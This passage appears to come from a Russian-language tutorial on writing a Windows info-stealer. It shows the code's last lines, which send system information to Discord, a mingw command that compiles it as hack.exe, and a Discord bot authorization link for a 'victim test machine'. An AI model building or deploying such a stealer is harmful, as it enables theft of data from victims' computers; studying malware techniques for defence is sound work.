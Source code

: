 ```cpp

  // send system info to discord
  sendToDiscord(systemInfo);
  return 0;
}
```

### демонстрация

Давайте проверим всё в действии.     

Компилируем наш "стилер" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-liphlpapi -lwinhttp
```

![вредоносное ПО](./images/127/2024-07-02_18-03.png){width="80%"}      

Перед запуском на тестовой машине жертвы нам нужно авторизовать нашего бота для отправки сообщений в канал:    

```yaml
https://discord.com/api/oauth2/authorize?client_id=123456789012345678&permissions=0&scope=bot
```

Замените client_id на свой:     

